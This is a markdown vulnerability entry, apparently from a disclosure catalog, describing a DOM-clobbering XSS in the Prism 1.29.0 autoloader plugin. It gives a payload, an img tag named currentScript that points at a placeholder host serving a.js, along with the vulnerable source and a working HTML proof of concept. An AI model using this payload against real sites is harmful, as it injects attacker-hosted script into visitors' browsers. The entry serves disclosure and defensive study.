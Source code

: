 ## Prism

### Meta

+ Library: Prism
+ Stars: 12.2k
+ Version: 1.29.0
+ Fingerprint: `typeof window.Prism !== 'undefined'`
+ Payload: ```<img name=currentScript src="https://xxx.xxx.xxx/a.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Todo
+ Foundby: TheHulk

### Library

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.min.js`

https://github.com/PrismJS/prism

### Vulnerable Code Snippet

```js
currentScript: function () {
				if (typeof document === 'undefined') {
					return null;
				}
				if ('currentScript' in document && 1 < 2 /* hack to trip TS' flow analysis */) {
					return /** @type {any} */ (document.currentScript);
				}
                ...
			},
```

```js
var script = Prism.util.currentScript();
if (script) {
    var autoloaderFile = /\bplugins\/autoloader\/prism-autoloader\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;
    var prismFile = /(^|\/)[\w-]+\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;

    var autoloaderPath = script.getAttribute('data-autoloader-path');
    if (autoloaderPath != null) {
        // data-autoloader-path is set, so just use it
        languages_path = autoloaderPath.trim().replace(/\/?$/, '/');
    } else {
        var src = script.src;
        if (autoloaderFile.test(src)) {
            // the script is the original autoloader script in the usual Prism project structure
            languages_path = src.replace(autoloaderFile, 'components/');
        }
    }
}
```

## PoC

host malicious file at `/components/prism-css.min.js`

```html
<!DOCTYPE html>
<html>
<head>
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism.css" integrity="sha512-jtWR3pdYjGwfw9df601YF6uGrKdhXV37c+/6VNzNctmrXoO0nkgHcS03BFxfkWycOa2P2Nw9Y9PCT9vjG9jkVg==" crossorigin="anonymous" referrerpolicy="no-referrer" />
</head>

<body>

<img name=currentScript src="http://localhost:8000/a.js"></img>

<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-core.js" integrity="sha512-jhk8ktzYxeUWJ/vx3Lzp53xE0Jgsp+UxA3wDyRSYeMBdPutgCp6jiGvTjyZm+R7cn3Lu/0MnEIR421EOdl3qAg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js"></script>

<pre><code class="language-css">p { color: red }</code></pre>

</body>
</html>
```
